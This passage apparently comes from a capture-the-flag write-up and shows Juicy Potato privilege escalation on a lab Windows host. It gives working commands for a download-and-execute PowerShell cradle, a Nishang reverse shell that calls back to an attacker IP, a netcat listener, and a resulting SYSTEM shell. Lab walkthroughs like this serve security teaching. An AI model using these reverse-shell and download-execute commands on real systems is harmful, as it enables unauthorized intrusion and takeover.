 For the program to be executed, we can use the [Invoke-PowerShellTcp](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) script which is part of [Nishang](https://github.com/samratashok/nishang). We can simple download this script and at the bottom, need to add one more line to create a connection with the attacker machine.

```
Invoke-PowerShellTcp -Reverse -IPAddress <your-ip> -Port 1337
```

Now, we need to get this ps1 get executed by a program that can be passed to the Juicy Potato. In order to do that, we can create a new file called `shellcall.bat` having the following content:

```
powershell -c IEX ((New-Object System.WebClient).DownloadString('http://<your-ip>:8000/Invoke-PowerShellTcp.ps1'))
```

Now, we can start a python server where both the `shellcall.bat` and `Invoke-PowerShellTcp.ps1` exist.

The task would be to pull the `shellcall.bat` on the target machine. This can be done using the IWR command

```
iwr "http://<your-ip>:8000/shellcall.bat" -o shellcall.bat
```

Before running Juicy Potato command, we need to start a listener on 1337. Once that's done, we can run the Juicy Potato command with shellcall script.

```
.\jp.exe -t * -l 1337 -p shellcall.bat
```

With the execution of the `shellcall.bat`, there will be another request on our Python server to pull the `Invoke-PowerShellTcp.ps1` file
```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.228.112 - - [02/May/2024 22:15:20] "GET /shellcall.bat HTTP/1.1" 200 -
10.129.228.112 - - [02/May/2024 22:15:35] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

If everything goes well, we will get our desired privileged shell

```
$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.15.61] from (UNKNOWN) [10.129.228.112] 49811
Windows PowerShell running as user JEEVES$ on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32>
```

And there we get access as `NT Authority\System`!
